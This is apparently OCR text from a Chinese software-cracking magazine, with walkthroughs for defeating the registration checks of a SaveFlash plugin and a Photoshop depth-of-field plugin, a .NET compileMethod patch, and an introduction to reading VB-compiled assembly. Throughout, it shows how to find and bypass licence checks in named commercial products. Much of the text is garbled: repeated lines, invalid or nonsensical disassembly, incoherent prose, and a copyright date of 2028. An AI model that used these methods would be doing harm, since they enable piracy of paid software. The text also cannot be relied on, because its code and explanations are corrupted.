| `000001000` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 75` | `mov eax, [ebp+4]; ecx, [ebp+c]; esi, [ebp+8]` |
| `000001010` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 74` | `mov eax, [ebp+4]; edx, [ebp+c]; esi, [ebp+8]` |
| `000001020` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 73` | `mov eax, [ebp+4]; ebx, [ebp+c]; esi, [ebp+8]` |
| `000001030` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 72` | `mov eax, [ebp+4]; edx, [ebp+c]; esi, [ebp+8]` |
| `000001040` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 71` | `mov eax, [ebp+4]; edi, [ebp+c]; esi, [ebp+8]` |
| `000001050` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 70` | `mov eax, [ebp+4]; ebp, [ebp+c]; esi, [ebp+8]` |
| `000001060` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 6F` | `mov eax, [ebp+4]; edi, [ebp+c]; esi, [ebp+8]` |
| `000001070` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 6E` | `mov eax, [ebp+4]; ebp, [ebp+c]; esi, [ebp+8]` |
| `000001080` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 6D` | `mov eax, [ebp+4]; ebx, [ebp+c]; esi, [ebp+8]` |
| `000001090` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 6C` | `mov eax, [ebp+4]; edx, [ebp+c]; esi, [ebp+8]` |
| `0000010A0` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 68` | `mov eax, [ebp+4]; edi, [ebp+c]; esi, [ebp+8]` |
| `0000010B0` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 67` | `mov eax, [ebp+4]; ebp, [ebp+c]; esi, [ebp+8]` |
| `0000010C0` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 66` | `mov eax, [ebp+4]; edi, [ebp+c]; esi, [ebp+8]` |
| `0000010D0` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 65` | `mov eax, [ebp+4]; ebp, [ebp+c]; esi, [ebp+8]` |
| `0000010E0` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 64` | `mov eax, [ebp+4]; edx, [ebp+c]; esi, [ebp+8]` |
| `0000010F0` | `64 8B 55 04 8B 45 0C 00 8B 75 08 8B 45 08 89 63` | `mov eax, [ebp+4]; ebx, [ebp+c]; esi, [ebp+8]` |

> 注：原文中“找到了IL在内存中的位置，也就找到了程序n在内存中的位置。现在的思路很清楚了，在`compileMethod`，查看IL的存储地，在SP+ 2.0的环境下，编译`Method`的内存地址是`7906E7F4`，直接修改`Olldbg`之后，点击`F5`继续运行，程序中不再停止，点击CrackMe的注册即可。”

## 小结

本次内容只有少量，这次学习了不同的版本的破解方法，用工具汇编自然是简单的在遇到方便的时候，可以用技巧`compileMethod`的方法来破解，我们将继续在文中介绍内核的更多知识，不明之处可以查看教程。

## 实例破解基础

插件本身就是一个执行文件。既然插件是执行文件，我们也可以通过重命名变成`exe`文件。由于插件不是执行文件，破解插件的方法完全是可行的。具体需要考虑的问题是：

1. 插件是必须的调试，软件在什么时候需要调试，采用什么方式调试？
2. 什么时候等到插件，从进入插件空间？
3. 有了插件后如何操作，如何找到插件？
4. 如何对插件进行下操作”，应该注意什么？

以上的问题对于比较熟悉的老手来说可能是什么问题，但对于初学者来说就完全没有了。虽然对于上述问题的破解方法因异而异，但大多数情况下还是可以找到规律。

## 关于插件

DLL类型的插件加载方式一般是API调用来操作，主程序需要知道插件放在什么地方（主程序并不知道什么时候给它插件），所以主要在插件目录中查找，然后通过API调用`GetWindowsDirectory`、`GetSystemDirectory`、`GetCurrentFullPath`、`GetFileName`、`LoadLibrary`、`LoadLibraryEx`、`LoadModule`等DLL的函数，通过这些API函数可以清楚地找到DLL的加载过程。

一种情况下，一般情况下可以使用标准DLL函数来调用DLL的加载过程，而不是由DLL来加载。由于主程序先知道DLL存在哪里，就不需要去寻找DLL的加载方法（除非插件是极高明的开发者）。

怎么办？变异百变，如果主程序加载插件（主程序是多线程的），如果插件已经执行了某个功能（这已经是不可能的），我们可以先选择在插件的界面上的某个按钮上点击，或者在弹出的窗口上选择“运行插件”，如果插件没有被执行，运行后呢，用DLL的方法来完成插件的调试，加载DLL后，其内部的函数和插件一样了。

一些插件是为了保护自己的秘密，可能会使用很多的方法对插件进行加密，让破解者找不到线索，哪怕即使你使用了插件的加密代码，如同。

## 实例破解

分析和进展，依要变动、善善、敏锐的观察力和不被棱的逻辑。

### 例1：Save Flash

下载地址：http://www.sflash.com/

Save Flash可以保存你喜欢的Flash动画，保存可以显示信息的传递，包括Flash动画的名称、URL和文件名。使用插件安装后，在你的文件元素里有四个组件，其中`SaveFlash.dll`不能单独运行，`EndAndSearchtoolexe`容易识别将这些注册后调用即可（如果你哪天知道了，它就会使用了），它支持多种语言，但在我的插件体中不支持中文，那么，你可以使用编辑器中使用一个英文字体来对中文内容的渲染可以使用插件“中文”，重新选择的语言可以呢。我们的IDE（记得）这个代码是从底层主程序（入口），使用“可执行”口的内存中，还没有看到`Flash.dll`，代码如何。

```
基数 | 名称 | 路径
000001000 | 0400025 | EXPLORE.EXE
000001010 | 05FD89D8 | C
000001020 | 62C2EAD | LPK
000001030 | 073F0A8 | USP10
000001040 | 75431AB | IMM
000001050 | 76E5162 | CRYPT32
000001060 | 7668151 | WININET
000001070 | 769A2C1 | ole32
000001080 | 77C051E | WINR
000001090 | 76C6D46 | IMAGEHLPC
0000010A0 | 78D399 | MSANSI
0000010B0 | 76F3310 | WLDAP2
0000010C0 | 77F015E | OLEAT32
0000010D0 | 718424E6 | comlt32
0000010E0 | 659B564144CC1DF6.0.6.2900.298_x | www.aac.com/comlt32
0000010F0 | 77BD115 | VERSION | Windows\system32\version.dll
000001100 | 77BEFA1 | msvcrt | Windows\system32\msvcrt.dll
000001110 | 77D2E96 | USER | Windows\system32\user.dll
```


| 000001120 | 77A1F7D | ADVAPI32 | Windows\system32\advapi32.dll |
| --- | --- | --- | --- |
| 000001130 | 77E56284 | RPCR4 | Windows\system32\RPCRT4.dll |
| 000001140 | 77EF6597 | GDI32 | Windows\system32\GDI32.dll |
| 000001150 | 77F4A5F | SHI_WAPI | Windows\system32\SHI_WAPI.dll |
| 000001160 | 7C0B85AE | kernel2 | Windows\system32\kernel32.dll |
| 000001170 | 79C23356 | ntl | Windows\system32\ntnl.dll |
| 000001180 | 75E65856 | SHDOCOC | Windows\system32\SHDOCOC.dll |

我们需要关键信息都放在这里，对于我们来说，更要它的入口，那么在可执行文件中有一个导出列表，找到：

| 导出函数 | 导出 |
| --- | --- |
| 插入可以插入 | `Enter` |
| 在CF中导出函数 | `Exit` |
| 安全函数 | `ExitProcess2` |


（注：OCR文本中存在大量重复和错乱，以下为基于逻辑的清理后核心内容）

搜索到的全部资源，但这种方式并不在汇编代码时适用。这种选择方式是比较大的，每个人都有自己的喜好。我们这里选择查看资源，在弹出的资源左侧有与注册有关，可以看到似乎不用话，大重选·跟随“加入”，SaveFlash!”的出现，在SaveFlash中再次搜索后，就能找到最后的位置。

```
01DB5A PUSH Savefile::100B890 Register Error;
01CA04 PUSH Savefile::01B0C not registration number;
```


这里的错误地址定位，太麻烦了。我们在编译时看到某些问题时，就需要去分析。

```
01DB5A MOV EAX,Savefile::01D0A
01DB5A PUSH Savefile::01BFAD77
01DB57 PUSH EAX
01DB58 PUSH ESI
01DB59 PUSH EDI
01DB5A MOV EAX,Savefile::01B3C6
01DB5B PUSH Savefile::01B3C6
01DB5C LE EAX,ECWORD PTR ESI-0BH
01DB5D MOV EDX,PTR ESI-0BH
01DB5E CALL Savefile::01C64
01DB5F PUSH 8000002
01DB60 PUSH EAX
01DB61 PUSH Savefile::01C0A4
01DB62 LE EAX,ECWORD PTR ESI-0BH
01DB63 CALL Savefile::01C64
01DB64 MOV EAX,Savefile::01D0A
01DB65 PUSH Savefile::01BFAD77
01DB66 PUSH EAX
01DB67 PUSH ESI
01DB68 PUSH EDI
01DB69 PUSH EDI
01DB6A MOV EAX,Savefile::01B3C6
01DB6B PUSH Savefile::01B3C6
01DB6C LE EAX,ECWORD PTR ESI-0BH
01DB6D MOV EDX,PTR ESI-0BH
01DB6E CALL Savefile::01C64
01DB6F LE EAX,ECWORD PTR ESI-0BH
01DB70 CALL Savefile::01C64
01DB71 PUSH EAX
01DB72 PUSH Savefile::01C0A4
01DB73 LE EAX,ECWORD PTR ESI-0BH
Text = "not correct number";
01DB74 PUSH Savefile::01C64
01DB75 CALL EDX,PTR ESI-0BH
01DB76 PUSH Savefile::01C64
01DB77 PUSH Savefile::01B3C6
01DB78 PUSH Savefile::01B3C6
01DB79 MOV EAX,Savefile::01D0A4
01DB7A LE EAX,ECWORD PTR ESI-0BH
01DB7B PUSH EAX
01DB7C PUSH Savefile::01B3C6
01DB7D PUSH Savefile::01B3C6
01DB7E MOV EAX,Savefile::01B3C6
01DB7F LE EAX,ECWORD PTR ESI-0BH
01DB80 MOV EDX,PTR ESI-0BH
01DB81 CALL Savefile::01C64
01DB82 LE EAX,ECWORD PTR ESI-0BH
01DB83 CALL Savefile::01C64
01DB84 PUSH Savefile::01C64
01DB85 PUSH Savefile::01BFAD77
01DB86 PUSH Savefile::01B3C6
01DB87 PUSH Savefile::01B3C6
01DB88 MOV EAX,Savefile::01D0A4
01DB89 LE EAX,ECWORD PTR ESI-0BH
01DB8A PUSH EAX
01DB8B PUSH EDX,PTR ESI-0BH
01DB8C PUSH Savefile::01C6B4
01DB8D CALL EDX,PTR ESI-0BH
01DB8E LE EAX,ECWORD PTR ESI-0BH
01DB8F CALL Savefile::01C64
01DB90 LE EAX,ECWORD PTR ESI-0BH
01DB91 CALL Savefile::01C64
01DB92 PUSH Savefile::01B3C6
01DB93 PUSH Savefile::01B3C6
01DB94 MOV EAX,Savefile::01D0A4
01DB95 LE EAX,ECWORD PTR ESI-0BH
01DB96 PUSH EAX
01DB97 PUSH Savefile::01B3C6
01DB98 PUSH Savefile::01B3C6
01DB99 MOV EAX,Savefile::01B3C6
01DB9A LE EAX,ECWORD PTR ESI-0BH
01DB9B MOV EDX,PTR ESI-0BH
01DB9C CALL Savefile::01C64
```

这里通过调试来解决了。

## SECRET OF CRACK

这里有一个通用的，注册方法正版单号。里面包含了20多个注册号，只要一个相同就行。一些插件的注册特征特别好，不要保存注册。保存标识是一个特殊的字符串，用这种特征作为调试留留在家里，我就不再多加介绍了。

反复一下调试插件，在Photoshop的循环下面，使用注册的插件方法。如果插件不知道，开始运行后按9使用Alt+E打开插件模块框，然后使用复制键粘贴到插件框中，在Photoshop的脚本中部的插件模块框中进行。在执行的过程中，通过查看和分析插件的方法找到它，由于是调试，在Console中显示“重定位”（是一个比较大的插件），很多情况下不需要使用移动指令把插件的活动位置确定合适的位置——

## [免费]Depth Of Field Generator 下载 https://www.defogf.com/

Depth Of Field Generator 是一款非常高效的Photoshop插件，它通过Z-Depth内置信息来精确的模糊效果，提供了圆形形状、大小、模糊、线性、边缘、深浅模糊生成、高差增等多种控制方法。

看着中心，我想起自己10年前就用Photoshop了，毫无技术积累，如今却通过比较插件来解决问题，不过还是没变化，常以以为改行学技术可以活跃到新的新的。过了一段时间，技术淘汰又老了一批，我也也就愁农不忙，反正不用愁了！Photoshop没用，用插件。因为现在插件非常多，而现在的第二代作者也都是插件的，表情就回来其实，原本的破解技术我也不够了。

用Photoshop的插件基本上都是8位型的吗？只要你按Alt+E打开它，插件就会加载到DLL类型中？Photoshop是插件的程序，使用OS需要


图3

Photoshop，用9运行Photoshop，Alt+E，怎么没有这个插件呢？不动插件吗？你不打开一个图片，插件就不能够？打开文件后按Alt+E，还有没有看见插件吗？

你知道Photoshop需要多少插件吗？呵呵，我自己也不知道，它不是下来的，下载不了，如果遇到，那就拜拜上帝，崩溃了！

“你反正要用插件来选，不需要，不需要！一空！OS.oj，你现在插件是在哪里下载的？让我们选几个插件试试，如图所示，插件设置出现后再出现，按Alt+E，插件模块就出现了，然后呢……对了，你的插件已经知道了，我来教你！”

“啊，好的，可以。”

很多时候插件是英文的，而且大半为标准字符串，你可能必须使用十六进制编辑器来修改插件，修改一个插件需要非常高的技巧，而你很难找到插件的长度限制，插件修改是不可能的，通常需要使用“大转换器”修改插件需要少量的技巧。最优的是OK的，还有……

“哎呀，找到了！我眼睛傻了，你有什么办法，找到上找到插件信息的方法告诉我吧，只要看到图4和图5所示的就可以了。虽然有DEMO（演示版）字符，还是存留在那个字符串里，用Request Code（必须的代码），这个插件存在包含机器码的插件，对于字符串DEMO或许也可能是

图4


图5


www.hacker.com 2008年酷客论坛 版

采用动态赋值值的方法，ASCII 查找索引的方法试看。连续德汉化，还有可能需要调整字体大小，使得字符显示更美观……如果找到了，找到的字都不对齐……

如果我找到了，却什么也没有，难道还是要求我上？？记住，死的是人活的，恰恰是价值太低了吧——

挣住了，你让我改进政治理学吗？我改进也不是，还可以重新创新，看着我（你彼）这技术也是可以的吗？我被改进了政治理学吗？哦，阿可怕，万一我改进了呢。

搜搜字符串，找到了一个……（难道通洪行的），如果还是什么也没有？我哈哈，这样的话我就不是一个“演示”的了吧？可能是 Request 在看着面前，重新检查一遍。如果真的看着它，搜寻符 DEMO也要去处理。除了配置，这个 Request 是软件办法是可能的，那么我应该是可以找到对应的字符串，或者是动态查找难道显然可能的，如果可以被找到，那么字符串就可以注册了（即注册），如果又找到了信息，那么文件就是找到了，这可能是可能的，但是，那个 Request 也不好被注册了，这可能是可能的。如果我使用了指定的 DLL，注册，这就会导致世界被注册了，如果我使用了指定的 DLL，这函数可能恐怕没时再找错了，可以去找到别的办法了。

在字体上发生了，外面的文字都是 ASCII 的，现在用 Unicode 码表示显然可能的，但是 FCMODE 值得得的，从这试试试看。


图6

重新载入一个 Photoshop，所需的数据应该在合适位置下载了我的吧？运行后面到这里（代码的比较）。

```
08B29A PUSH, dprof:08AB9D4
ResourceType = "FMODE"
08B29F PUSH, ResourceName = 84
08B2A4 PUSH, Module = 00AB700 (dprof)
08B2A5 CALL DWORD PTR, &KERNEL
FindResource: eax = 32
08B29AB MOV ESLEAX
08B2A8 TEST_ESAX
08B2AF JZ SHORT dprof:08B296,08B29B
'ASCI' = not found, FCMODE 132 resource.
08B2A9 CALL dprof:00AB700
08B2AD CALL dprof:00AB700
我找到了：
08B29C RET
08B29E MOV ECX, DWORD PTR:08AB9F4
08B2AB 0000000
08B2CC PUSH, &resource
08B2CD PUSH, EBX
08B2D0 CALL DWORD PTR, &KERNEL
08B2D4 RET
08B2D7 PUSH, &Resource
08B2D8 PUSH, Module = 00AB700 (dprof)
08B2D9 CALL DWORD PTR, &KERNEL
没有找到，但被找到：
08B2A0 PUSH, dprof:08AB9D0
'ASCI' = not found, FCMODE 132 resource.
08B2A38 CALL dprof:00AB700
08B2A17 RET
08B2A18 PUSH, EBX, &Handlers
08B2A19 CALL DWORD PTR, &KERNEL
我找到了，可以找到了：
08B391F MOV ESLEAX,移动到这里
08B3921 TEST_ESAX
08B3923 JZ SHORT dprof:08B3B9
没有找到，就直接返回
```

## SECRET OF CRACK

```
0AB39235 push "Could not find FMC resource."
0AB392A call proc.0AB7E0d
0AB3939 ret
0AB393A push ebx
0AB393B call dword ptr [msvccrt]malloc
0AB39A3 add ebp,20h
0AB39A6 sub ebx,14h
0AB39A9 icmp ecx,0a
0AB39AC3 jnz short dprof.0AB940
```

以下部分进行指针转换：

```
0AB94C0 mov dword ptr:[esp+10h];转换指针的第一个参数
0AB94C2 sub ebx,14h ;转换后的第二个参数
0AB94C5 sub ecx,0c ;第2个数-2
0AB94C8 add ebp,1c ;将参数传递给下一个函数并开始
0AB94CB8 mov ebx,ecx
0AB94CD4 jmp dword ptr [ebx*77h]
0AB94D03 test ecx,8 ;switch(case 1)
0AB94D04 add ecx,8 ;继续执行
```

汇编参数：地址62F4，第四个参数在BaseSpec调用第一个FMC函数，地址在62F4处作为返回值：

```
0AB943D1 add esp,40h
0AB943D4 mov dword ptr:[esp+10h]
0AB43E7 test eax,eax
0AB94EA mov ebx,eax
0AB94ED jnz short dprof.0AB9364;加载第二个参数
0AB94EE push ebx
0AB94F4 push dword ptr 0AB8B27c;"Could not load it bytes for FMC resource."
```

上面的代码只是准备参数，剩下的部分是FMC函数的实现（由于代码太大，这里省略一部分）：

```
0AB3864 mov ecx,ecx;开始第二个函数程序
0AB386C mov ecx,ecx;这里是第一个参数，第二个是参数
0AB3879 mov ecx,ecx;转移指针，此时是第三个参数
0AB38ED mov ecx,ecx ;是第四个参数
0AB38F0 shl ecx,2 ;计数器乘以
0AB38F5 ror mov dword ptr:[ebx];转移指针
0AB3906 mov ecx,ecx
0AB390D and ecx,1
0AB3913 test al,al
0AB3917 ror mov dword ptr:[ebx]byte ptr
0AB391FE jmp short dprof.0AB39B4
0AB3923 push dword ptr.0AB82D5c;"FMC is not loaded correctly."
0AB3937 jmp dprof.0AB94B62
0AB3938 cmp ebx,24h ;参数大于24小时
0AB393B jmp dprof.0AB93C8 ;跳过主循环
0AB393E push ebx ;第三个参数
0AB3945 mov ebx,ecx ;是第四个参数
0AB3948 and ecx,1 ;与与逻辑与返回
0AB394B add esp,4
0AB394F test eax,eax ;跳转到循环
0AB3953 ump dword ptr [0AB39A];跳转到循环的末尾
```

以下部分已经删除的函数，其中有一个问题是：跳转地址（找到关键词的位置）这里多次跳转：二是数据的内容（你都看到了）

```
0AB4E56 mov ecx,ecx
0AB4E58 sub ebx,ecx
0AB4E5D mov ecx,ecx
0AB4E62 mov dword ptr:[ebx];转移指针
0AB4E6F mov ecx,ecx
0AB4E71 and ecx,1
0AB4E74 ror mov dword ptr:[ebx]byte ptr
```

通过这段代码，已经用FMC函数处理并处理了它的字符串，把这些字符串连接起来看来编写完之后，代码运行到这里显然，打开`KEY_LOCAL_MACHINE\System\CurrentControlSet\Control`，注册表中看看，可否，原来是要计算机器名，用下面即可：


```
0AB890D2 PUSH EAX
0AB890D3 LEA ECX,WORD PTR [ESP+28]
0AB890D7 PUSH ESI
0AB890D9 PUSH EDI
0AB890DB PUSH EAX;mov [edi]
0AB890DF PUSH EDI;mov [edi]
0AB890E1 PUSH EAX;CALL PTR [ESP+43]
```

尝试再修改中的：

```
0B120D00 00000000 jmp /00
0B120D1C mov [eax],*ComputerName
0B120D30 00000000 -NULL;jmp
0B120D34 mov [eax]=0234061
0B120D38 81C3B9000000 mov ecax,B9
0B120D3C mov [eax]=000
```

将保存到文件`89E0`，修改后的结果就会这样不是简单的，你可能对它进行修改，慢慢调试来到邮件处（可能要重新汇编，再运行）但是，注意这里：

```
0AB3E3E4 LEA ECX,WORD PTR [ESP-B8]
0AB3E3E7 mov ESI,WORD PTR [ESP+98]
0AB3E3E9 mov EAX,WORD PTR [ESP+B8]
0AB3E3F4 LEA EAX,WORD PTR [ESP-24]
0AB3E401 mov [eax],WORD PTR [ESP+B8]
0AB3E405 mov ESI,WORD PTR [ESP+D4]
0AB3E409 PUSH EDI
0AB3E40B mov [eax],WORD PTR [ESP+C0]
0AB3E412 mov [eax],WORD PTR [ESP+B8]
0AB3E416 mov [eax],WORD PTR [ESP+B0]
0AB3E41A PUSH EAX,WORD PTR [ESP+B8]
0AB3E42A CALL EDI
```

```
0A3F1210 IDIV ECX; 0AC3C2A mov
0A3F1214 push ebx
0A3F1222 mov ESI,WORD PTR [ESP+D8]
0A3F1226 mov EAX,WORD PTR [ESP+D8]
0A3F122A mov [eax],WORD PTR [ESP+90]
0A3F1232 mov [eax],WORD PTR [ESP+B0]
```

```
0A7415D2 mov EAX,0D575757
0A7415D3 LEA EAX,WORD PTR [ESP+B0]
0A7415D9 mov EAX,WORD PTR [ESP+B8]
0A7415BC LEA EAX,WORD PTR [ESP-18]
0A7415C3 mov EAX,WORD PTR [ESP+C4]
0A7415C7 PUSH EAX,WORD PTR [ESP+B8]
0A7415CF mov [EAX],WORD PTR [0+E0];
0A7415D1 jmp
```

这里发现它出现了什么错误呢？在注册表写入时，自动将`X`替换为`0x0D`

```
0A555568 61 78 00 00 68 65 00 00 68 67 00 00 68 68 00 00 34 33 38 35 00 00 lauxtong.10485
0A55553C 32 33 34 32 23 33 34 32 31 33 29 34 31 23 33 33 34 33 33 38 38 38 38 3A 35 55 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 38 38 38 3A 3A 0555 35 32 32 33 33 33 33 33 33 39 39 39 39 39 39 30 30 00 00 00 44
```

上面的逻辑过程，软件并不会读取字符的属性是否为，只是判断上一次读取的是否`0x0A`，如果是`0x0A`则计算结果，若计算计数次数长度为1（判断上次读取，计算结束），就就是：


# SECRET OF CRACK

文件的，你需要重新删除它。

经过这里，后面就是注册与判断了。其中`10485243-1402668a-4137418-745878-0440460`由`RequestCode`和注册码注册，`27948e`是字符。如果你愿意，可以删除注册后的对应关系。

```
0A2069A CALL ESI
// 替换函数方法以注册码
0A206B ADD EDI,ESC
0A206F MOV ESI
0A2071 LEA ESI PTR[ESP-40]
0A2075 MOV EWORD PTR[ESP-38]
0A2076 LEA ESI PTR[ESP-54]
0A207A MOV EDI,EOP
0A207B CALL ESI; 注册码
0A207D SET ALE; 注册码比对成功
0A2080 MOV ESI
0A2083 CMP ESI
0A2086 JE 0A20A7; 不继续
0A2088 LEA ESI PTR[ESP-44]
0A208C MOV EWORD PTR[ESP-34]
0A2093 LEA ESI PTR[ESP-58]
0A2097 MOV EWORD PTR[ESP-36]
0A209B CALL ESI; 注册码
0A209C SET ALE
0A2100 MOV ESI
0A2103 JE 0A20A7; 不继续
0A2105 LEA ESI PTR[ESP-48]
0A2109 MOV EWORD PTR[ESP-32]
0A210D CMP ESI; 注册码成功
0A2111 MOV ESI
0A2114 SET ALE
0A2118 MOV ESI
0A211B JE 0A20A7; 不继续
0A211D LEA ESI PTR[ESP-60]
0A2123 MOV EWORD PTR[ESP-24]
0A2127 CMP ESI; 注册码成功
0A212B SET ALE
0A212F MOV ESI
0A2132 JE 0A20A7; 不继续
0A2134 LEA ESI PTR[ESP-28]
0A2138 MOV EWORD PTR[ESP-12]
```

```
0A04070 MOV EDI,EDL2A
0A04072 CMP ESI,0x62D2A=27948e
0A04074 SET ALE
0A04076 MOV ESI,AL
0A04078 CMP ESI
0A0407A JE 0A04077; 不继续
0A0407C LEA ESI PTR[ESP-3B]
0A0407F MOV EWORD PTR[ESP-D0]
0A04081 MOV EDI,ESI
0A04083 CMP ESI; 注册码成功
0A04085 SET ALE
0A04087 MOV ESI
0A04089 JE 0A04078; 不继续
```

另外，注册这个和大多数的注册函数不一样，大多数是字符串后再转换为整数，这里就是直接连接了。

在现在你想要注册了，如果采用注册方法时，注册文件名就是`lic`，这是一个文件，第一行就是注册码`Code`，第二行就是由注册名组成，并参与了注册的函数分为部分：前部分由注册名和注册码组成，后部分是固定的，注册用的加密密钥作为资源存储在内存中的，是不是可以修改的这样了。

跟着这个Photoshop插件是比较麻烦的，原因是其中一些的问题已经处理了。注册你之后，能够找到一个正确的方法，或许我们就可以提供你想要的答案了。如果你不能找到，对于你的注册方法技术是有够的，但要知道这并不是唯一的办法，跟着注册的过程需要一点精神，看后面的图片如图 7所示，它已经不再显示了，而是已经注册了。


This filter generates total depth of field effects occurs.

Registered to: lamusteng

记住我们今天的学习的，那就是我们如何解析——从注册源码开始！

记住“方法哦”，要知道如何做，请看下方的。

www.hacked.com (版权)2028 破解软件版权所有

# 水学破解密码

适合者：破解密码好者

## 前言：从汇编语言说起

文/图 laoxotong

在以前的文章中曾经提到，很多朋友都对VB编写的软件感兴趣，认为VB编写的代码完全看不到底层的内核，办法是如此，其实原因有以下几点：

- 1) VB编写的代码汇译后，并没有将计算逻辑、事件处理以及性代码直接重在程序中的，而是采用“委托”的方式交给函数来进行处理。
- 2) VB进行委托之前，需要花费工作来保证“委托”功能能够顺利。
- 3) VB中使用Unicode编码，造成指针的异常。
- 4) VB编写的直接是不直接调用API，而是通常通过函数来调用（间接调用）。这样一来，熟悉VB的人就无法直接看到。
- 5) VB编写的代码汇译后，很多数据不能直接观察到的，使用了保护，数据输出是一个结构，或者地址是不可能的，所以不知道代码到底是什么。对于学者来说并不是难，VB每一步操作都是明确的，函数名称在VB中有了，这些函数名称与编写时相似，只需要清楚的操作就可以了。当然，要是每次都要做，函数库就是大的，一行代码跟踪，也不是一个问题。

平时记忆一些函数的形状意义是很重要的，没有记忆是不成功的。

## 语法与分析

- 1) 变量定义：假设三个变量名为`b1`、`b2`、`b3`，类型设置为`Long`。源码如下：

```
Private Sub Click()
Dim b1, b2, b3 As Long
```


```
b1 = 12345678
b2 = b1
b3 = b2
Text = "..."
End Sub
```

以上代码被汇译为汇编代码：

```
3: Private Sub Click()
push ebp
move ebp, esp
```

# SECRET OF CRACK

```
sub esp, 12; 0000000h
push OFFSET vbaExceptionHandler
mov eax, fs_except_list
push
movword fs_except_list, esp
sub esp, 80; 0000050h
push
pushed
pushed
movword _SEHRec(ebp+8), esp
movword _SEHFrame(ebp+12), OFFSET $53
mov eax, ptr(esp)
mov eax, esi
index, 1
and eax, -2; ffffffff
push
movword ptr(esp)
mov eax, [esp]
call [esp+4]
xor edi, esp
```

怎么实现的？`Text = b3`

再看看整数转换字符串了，值得获得：

```
mov eax, [esp]
push
call [eax+764]
lea unnamed_var1,ptr[ebp]
push
push
call __imp__vbaObjectSet
esi
mov eax, ptr[esi]
mov [ebp-100], esp
call __imp__vbaStr4
mov eax, esi
mov unnamed_var1,ptr[ebp]
call __imp__vbaStrMode
mov [ebp-100], eax
push
push
call [esp+164]
cmp eax, esi
```

看了，为了开展工作，做了不少的准备。实际上看来已经做好了，但是我没有看到出来。

- `37; dim b1, b2 As Long`
- `39; bi=12345678`

再看看下面的第一次转换过程：

```
lea unnamed_var1,ptr[ebp]
movword unnamed_var1[ebp], esp
lea _b1,ptr[ebp]
movword _b1[ebp]
lea _b2,ptr[ebp]
movword unnamed_var1[ebp]
movword unnamed_var1[ebp], 12345678
; 0b0cc1a4
movword unnamed_var1[ebp], esp
call __imp__vbaVarMove
```

赋值之后发生了什么，又来看吗？

- `40; bi=b3`

下面是赋值的传递过程：

```
lea _b1,ptr[ebp]
lea _b2,ptr[ebp]
push
push
call __imp__vbaVar4
mov eax, esi
```

上面已经通过，但是还有链接的代码。如果需要，可以使用OD找到，这里：

```
00400B07 PUSH EB
00400B81 MOV EB, esp
00400B83 SUB, esp
00400B86 PUSH
00400B88 MOV EAX, FS[0]
00400B91 PUSH EAX
00400B92 MOV FS[0],esp
00400B9C PUSH ecx
00400B9D PUSH esi
```

我们用了什么方法？第二次是赋值的传递过程。发生变形，以及生成的代码，这里没有错误，进行调试。

## SEH handler

```
0001B9E PUSH EDI
0001B9F MOV DWORD PTR[esp]-6B
0001BA0 MOV DWORD PTR[esp]-48,EAX
0001BA7 MOV DWORD PTR[esp]-5B
0001BAAC MOV EAX,ESI
0001BAD AND EAX,0xFFFFFF
0001BA47 PUSH EDI
0001BA4B MOV DWORD PTR[esp]-5B,EAX
0001BA53 MOV DWORD PTR[esp]+DC4
0001BA57 CALL DWORD PTR[esp]+DC4
0001BA5B XOR EDI,EDI
0001BA64 LE EAX,[esp]-5B
0001BA68 MOV DWORD PTR[esp]-50D,EDI
0001BA6C LE EAX,[esp]-26
0001BA70 MOV DWORD PTR[esp]-24
0001BA74 LE EAX,[esp]-30C
0001BA78 MOV DWORD PTR[esp]-40C
0001BA7C MOV DWORD PTR[esp]-40D
0001BA80 MOV DWORD PTR[esp]-48,05C614E
0001BA84 MOV DWORD PTR[esp]-50B
0001BA88 CALL DWORD PTR[esp]+...
```

```
0040C1A MOV DWORD PTR[esp]
0040C1B MOV DWORD PTR[esp]-64,EAX
0040C1CF CALL DWORD PTR[esp]+...
0040C25 MOV EAX,EAX
0040C27 LE EAX,[esp]-5B-3C
0040C2A CALL DWORD PTR[esp]+...
0040C30 MOV DWORD PTR[esp]-84
0040C33 PUSH EDI
0040C34 PUSH EDI
0040C35 CALL DWORD PTR[esp]+A4
0040C39 CMP EAX,EAX
0040C3D LE EAX
0040C3F JGE Short:0040C35
0040C41 PUSH EAX
0040C45 LE EAX,00401A8
0040C49 PUSH EDI
0040C4D PUSH EAX
```

转换字符串后，到我们第`12345678`号了吗？

```
0040CAD CALL DWORD PTR[esp]+...
0040C53 LE EAX,[esp]-5B-3C
0040C57 CALL DWORD PTR[esp]+...
0040C5F LE EAX,[esp]-40C
0040C63 CALL DWORD PTR[esp]+...
0040C67 MOV DWORD PTR[esp]-48,EAX
0040C6B PUSH EAX
0040C6F JMP Short 0040C62
0040C72 LE EAX,[esp]-3B-C
0040C76 CALL DWORD PTR[esp]+...
0040C7A LE DWORD PTR[esp]-40
0040C7E CALL DWORD PTR[esp]+...
0040C81 REFTN
```

转换字符串之后它又做了什么动作。看到字符串“`12345678`号”了吗

替换后，我们计数函数的个数。如果是它想要找到的第二个断点（见下方的分析）：

```
0001BE3 LE EAX,[esi]-24
0001BE7 LE EAX,[esi]-3B-34
0001BEB CALL DWORD PTR[esp]+...
```

了一个简单的字符串，但它的返回值变成了2，看到`12345678`号了吗

```
0001C01 MOV EAX,EAX
0001C05 MOV DWORD PTR[esp]
0001C09 PUSH EAX
0001C0D CALL DWORD PTR[esp]+...
```

又跳转，看到`12345678`了吗

```
0001C10 MOV EAX,EAX
0001C14 MOV DWORD PTR[esp]
0001C18 PUSH EAX
0001C1C LE EAX,[esi]-3B
0001C20 AND EAX,FFFFFFFF
0001C24 PUSH EDI
